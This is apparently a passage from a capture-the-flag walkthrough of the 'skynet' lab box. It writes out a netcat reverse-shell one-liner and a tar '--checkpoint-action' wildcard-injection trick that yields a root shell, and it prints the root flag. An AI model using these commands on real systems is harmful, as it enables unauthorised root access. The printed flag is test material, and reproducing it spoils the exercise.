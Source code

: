     cd /var/www/html  
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.2.18.4 4446 >/tmp/f" > shell.sh  
    touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"  
    touch "/var/www/html/--checkpoint=1


- Once the scheduler runs, we will get a root shell. 
-

    $ nc -lnvp 4446
    listening on [any] 4446 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.166.117] 49360
    bash: cannot set terminal process group (4812): Inappropriate ioctl for device
    bash: no job control in this shell
    root@skynet:/var/www/html# cd /root
    cd /root
    root@skynet:~# ls -lrt
    ls -lrt
    total 4
    -rw-r--r-- 1 root root 33 Sep 17  2019 root.txt
    root@skynet:~# cat root.txt
    cat root.txt
    3f0372db24753accc7179a282cd6a949


